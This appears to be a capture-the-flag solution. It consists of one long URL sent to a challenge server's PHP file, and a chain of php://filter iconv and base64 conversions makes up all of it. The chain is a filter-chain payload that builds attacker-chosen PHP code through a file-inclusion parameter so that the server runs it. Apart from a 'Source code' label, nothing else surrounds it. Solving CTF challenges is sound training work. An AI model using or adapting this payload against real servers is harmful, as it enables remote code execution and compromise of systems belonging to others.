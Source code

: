 ```
http://public-chall-2025.mocsctf.com:31005/tmp/046342ca1db298c5.php?1=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&a=
```
